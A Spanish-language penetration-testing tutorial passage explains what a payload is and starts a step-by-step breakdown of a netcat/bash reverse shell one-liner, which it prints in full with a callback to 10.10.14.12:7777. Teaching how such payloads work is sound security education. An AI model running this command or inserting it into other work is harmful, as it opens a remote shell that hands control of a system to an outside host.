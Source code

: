 # Payloads

La mayoría de nosotros probablemente hemos enviado un correo electrónico o un mensaje de texto. El mensaje que enviamos es el "payload" (carga útil) del paquete que se envía a través de Internet. En informática, el payload es el mensaje intencionado. En seguridad de la información, el payload es el comando y/o código que explota una vulnerabilidad en el sistema operativo o la aplicación. El payload realiza la acción maliciosa desde una perspectiva defensiva.

Como vimos en la sección de conchas inversas, Windows Defender detuvo la ejecución de nuestro payload de PowerShell porque fue considerado código malicioso.

Es importante recordar que cuando entregamos y ejecutamos payloads, simplemente estamos dando instrucciones al ordenador objetivo sobre lo que debe hacer, al igual que cualquier otro programa. Los términos "malware" y "código malicioso" a menudo hacen que el proceso parezca más misterioso de lo que es. Siempre que trabajemos con payloads, debemos desafiarnos a comprender lo que realmente hacen los comandos y el código.

A continuación, desglosaremos los "one-liners" que usamos anteriormente:

## Examinando los One-Liners

### **One-Liner de Shell Inversa con Netcat/Bash**

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

Los comandos anteriores constituyen un one-liner común utilizado en un sistema Linux para servir una shell Bash en un socket de red utilizando un listener de Netcat. Se usa frecuentemente, pero no siempre se entiende bien. Vamos a desglosarlo:

### **1. Eliminar `/tmp/f`**

```bash
rm -f /tmp/f;
```

Este comando elimina el archivo `/tmp/f` si existe. El modificador `-f` obliga a `rm` a ignorar archivos inexistentes sin mostrar errores. El punto y coma (;) se usa para ejecutar el comando de forma secuencial.

### **2. Crear un Pipe Nombrado**

```bash
mkfifo /tmp/f;
```

Este comando crea un archivo de pipe FIFO (first in, first out) con nombre en la ubicación especificada, en este caso, `/tmp/f`. El punto y coma (;) ejecuta el siguiente comando secuencialmente.

### **3. Redirección de Salida**

```bash
cat /tmp/f |
```
